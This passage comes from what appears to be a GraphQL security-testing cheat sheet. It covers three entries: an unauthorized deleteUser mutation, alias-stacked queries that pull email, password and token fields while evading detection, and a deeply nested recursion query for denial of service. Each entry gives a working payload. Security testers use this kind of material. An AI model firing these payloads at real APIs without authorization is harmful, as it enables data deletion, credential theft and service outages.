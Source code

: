 
### 20. Mutation with Insufficient Privileges

**Explanation:**
Try deleting/modifying stuff you shouldn't access (like another user’s post). If it works — there’s a flaw.

**Payload:**

```json
{
  "query": "mutation { deleteUser(id: \"1\") { id } }"
}
```


---

### 21. GraphQL Alias Overuse (Obfuscation)

**Explanation:**
Aliases let you rename fields. Attackers can hide malicious queries or make detection harder.

**Payload:**

```graphql
query {
  a1: user(id: 1) { email }
  a2: user(id: 1) { password }
  a3: user(id: 1) { token }
}
```

---

### 22. Recursion Attack

**Explanation:**
GraphQL allows querying deeply nested fields. If there's no depth limit, this can kill performance.

**Payload:**

```graphql
query {
  user(id: 1) {
    friends {
      friends {
        friends {
          friends {
            name
          }
        }
      }
    }
  }
}
```

---